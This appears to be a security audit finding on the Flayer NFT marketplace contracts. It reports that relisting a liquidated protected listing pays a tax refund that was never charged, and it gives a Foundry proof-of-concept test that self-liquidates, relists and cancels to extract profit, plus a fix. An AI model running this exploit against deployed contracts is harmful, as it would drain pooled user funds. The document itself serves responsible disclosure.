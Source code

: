 Clean Snowy Mustang

High

# No check if a listing is a liquidation when process tax refund in relisting

## Summary
No check if a listing is a liquidation when process tax refund in relisting, user can receive refund they didn't pay.

## Vulnerability Detail
When a protected listing is created, the user is charged no tax, when the protected listing is liquidated, no tax is required either. The liquidation listing can be relisted like normal listings, and tax is refunded to the listing owner regardless.

[Listings.sol#L643-L644](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L643-L644):
```solidity
        // We can process a tax refund for the existing listing
        (uint _fees,) = _resolveListingTax(oldListing, _collection, true);
```

This can be leveraged by attacker to drain the funds in the contract, consider the following scenario:
1. Bob creates a protected listing by using a floor item, receives 0.95 ether;
2. At the next block, with another account, Bob liquidates his own protected listing right away to create a liquidation listing, he receives 0.05 ether keeper reward;
3. In the same transaction, Bob relists the liquidation listing, when it is processed, Bob receives some tax refund he never paid;
4. Again In the same transaction, Bob cancels the relisted listing, burns 1 ether to receive the floor item back.

After the exploit, Bob still owns the floor item plus the tax refund as a profit (In the PoC below, the profit is 51428571428571428 (0.0514 ether), even if the protected listing is liquidated by others, attacker still earns a profit without the keeper reward).

Please run the PoC in Listings.t.sol to verify:
```solidity
    function testAudit_RelistToDrain() public {
        address bob1 = makeAddr("Bob1");
        address bob2 = makeAddr("Bob2");

        ICollectionToken collectionToken = locker.collectionToken(address(erc721a));

        mintCollectionTokens(address(erc721a), bob2, 1, 4);
        erc721a.mint(bob1, 888);

        // Initially, Bob owns one ERC721 item and 4 ether collection tokens
        assertEq(erc721a.ownerOf(888), bob1);
        assertEq(collectionToken.balanceOf(bob2), 4e18);

        // Bob creates a protected listing
        IProtectedListings.CreateListing[] memory _listings = new IProtectedListings.CreateListing[](1);
        _listings[0] = IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(888),
            listing: IProtectedListings.ProtectedListing({
                owner: payable(bob1),
                tokenTaken: 0.95 ether,
                checkpoint: 0
            })
        });

        vm.startPrank(bob1);
        erc721a.approve(address(protectedListings), 888);
        protectedListings.createListings(_listings);
        vm.stopPrank();

        // Bob's protected listing becomes liquidatable at the next block
        vm.warp(block.timestamp + 1);

        /**
            1. Bob liquidates his own protected listing;
            2. Bob relists the liquidaion listing;
            3. Bob cancells the listing
         */
        vm.startPrank(bob2);
        
        // Liquidating
        protectedListings.liquidateProtectedListing(address(erc721a), 888);

        // Relisting
        collectionToken.approve(address(listings), type(uint256).max);
        listings.relist({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(888),
                listing: IListings.Listing({
                    owner: payable(bob2),
                    created: uint40(block.timestamp),
                    duration: listings.MIN_LIQUID_DURATION(),
                    floorMultiple: 1_01
                })
            }),
            _payTaxWithEscrow: false
        });

        // Cancelling
        listings.cancelListings(address(erc721a), _tokenIdToArray(888), false);
        vm.stopPrank();

        //  At last, Bob still owns one ERC721 item and 4 ether collection tokens, plus 51428571428571428 collection balance in Escrow
        assertEq(erc721a.ownerOf(888), bob2);
        assertEq(collectionToken.balanceOf(bob1), 3950000000000000000);
        assertEq(collectionToken.balanceOf(bob2), 50000000000000000);
        assertEq(listings.balances(bob1, address(collectionToken)), 51428571428571428);
    }

    function mintCollectionTokens(address collection, address to, uint id, uint count) private {
        ERC721Mock token = ERC721Mock(collection);

        uint[] memory depositTokenIds = new uint[](count);

        for (uint i; i < count; ++i) {
            token.mint(address(this), id);
            depositTokenIds[i] = id;
            ++id;
        }

        erc721a.setApprovalForAll(address(locker), true);
        locker.deposit(collection, depositTokenIds, to);
    }
```

## Impact

Pool can be drained by repeating the exploit.

## Code Snippet

https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L644

## Tool used

Manual Review

## Recommendation

Check if a listing is a liquidation listing, and do not process tax refund if it is.

[Listings.sol#L644](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L644):
```diff
+       if (!_isLiquidation[_collection][_tokenId]) {
            (uint _fees,) = _resolveListingTax(oldListing, _collection, true);
+       }
```
